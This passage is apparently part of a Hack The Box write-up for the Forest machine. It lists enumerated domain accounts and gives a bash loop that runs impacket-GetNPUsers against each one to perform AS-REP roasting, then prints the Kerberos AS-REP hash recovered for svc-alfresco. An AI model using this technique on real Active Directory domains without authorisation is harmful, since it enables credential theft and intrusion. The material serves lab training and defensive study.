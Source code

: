 To start off, we will first create a list of users that we have obtained earlier.

```
Administrator 
Guest 
krbtgt 
DefaultAccount 
$331000-VK4ADACQNUCA 
SM_2c8eef0a09b545acb 
SM_ca8c2ed5bdab4dc9b 
SM_75a538d3025e4db9a 
SM_681f53d4942840e18
SM_1b41c9286325456bb 
SM_9b69f1b9d2cc45549 
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb 
HealthMailboxc3d7722 
HealthMailboxfc9daad 
HealthMailboxc0a90c9 
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781 
HealthMailboxfd87238 
HealthMailboxb01ac64 
HealthMailbox7108a4e 
HealthMailbox0659cc1 
sebastien 
lucinda 
svc-alfresco 
andy 
mark 
santi 
```

Afterwards, we will create a bash script that will execute impacket-GetNPUsers for all the users and check if kerberos pre-authentication is enabled.

```
for user in $(cat users.txt);
do 
  impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb.local/${user}
done
```

From the output, we realized that the user svc-alfresco does not have kerberos pre-authentication enabled, and we are able to obtain the hash of the password from the script.

```
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:bd3af1c170685f86f4d7b4fea07dc68c$1ee56f34f680c87990e71809b1053440580f651bb6bf5ed097b8a44876c9f4be5a918229167e475d5fe1f446ce66abd9e8d89e842b59ecd37f3b869ea9b69b219c868c66609a2a5e62f4f28bad87394d423a12b9ba3ca9f922a77e604ef930c81e3790f19bdd3aad96a875451b4037eb06c255550b70035ae8d95a0c178fc88e3f5b43fe16d0b8e4ba5e4091ddcb781f0af65590209410f6d5c651c3cb12dfc6d2b3269bf1033cb46346c694cf78efbd8f3818ffb3a1151836cd570ae316cfa87e0ae3fa67c4e593a6f4852929578e0cd56c9b62e98b1f8816a174dc2bd066d2
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
```

